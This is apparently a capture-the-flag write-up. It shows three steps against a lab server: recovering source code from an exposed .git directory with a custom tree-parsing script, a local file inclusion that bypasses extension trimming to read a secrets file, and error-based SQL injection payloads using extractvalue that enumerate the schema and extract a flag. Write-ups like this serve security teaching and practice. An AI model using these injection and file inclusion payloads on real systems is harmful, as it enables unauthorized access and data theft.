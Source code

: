 ## commit and order
(getting code from .git folder)
Tools used
- zlib-flate
- custom script to parse tree files

/.git -> check logs -> get commits  (using zlib-flate) -> get objects (of commit) -> get tree -> unreadable data -> custom script to decode tree file format -> get file blob hash -> get blob from objects -> get file from blob using zlib-flate -> do repetively for old commits -> will get flag in one of the old commit to admin.php

```python
import zlib
import sys
import binascii

def parse_git_tree(filepath):
    with open(filepath, "rb") as f:
        data = f.read()
    decompressed = zlib.decompress(data)

    # Skip "tree <size>\0"
    header_end = decompressed.index(b'\x00')
    tree_data = decompressed[header_end+1:]

    i = 0
    while i < len(tree_data):
        mode_end = tree_data.index(b' ', i)
        mode = tree_data[i:mode_end].decode()

        name_end = tree_data.index(b'\x00', mode_end)
        name = tree_data[mode_end+1:name_end].decode()

        sha = tree_data[name_end+1:name_end+21]
        sha_hex = binascii.hexlify(sha).decode()

        print(f"Mode: {mode} | Name: {name} | SHA-1: {sha_hex}")

        i = name_end + 21  # move to next entry

# Example usage
parse_git_tree(sys.argv[1])
```

## how i parsed your json 
restricted lfi 
```
http://23.179.17.40:58004/select?record=*&container=/app/secrets.txt.py
```
The server is trimming extension, but only the last one so secrets.txt.py will be trimmed to secrets.txt by endpoint.


## breaking authentication
(blind sqli)

making use of sql error logs

```
' and extractvalue(1, concat(0x7e, (SELECT database()), 0x7e))-- -
~app~

' and extractvalue(1, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1), 0x7e))-- -
~secrets~

' and extractvalue(1, concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='secrets' LIMIT 0,1),0x7e))-- -
~flag~

' and extractvalue(1, concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='secrets' LIMIT 1,1),0x7e))-- -
~value~

' and extractvalue(1, concat(0x7e, (SELECT name FROM secrets LIMIT 0,1), 0x7e))-- - 
~flag~

' and extractvalue(1, concat(0x7e, (SELECT value FROM secrets LIMIT 0,1), 0x7e))-- - 
~CIT{36b0efd6c2ec7132}~
```
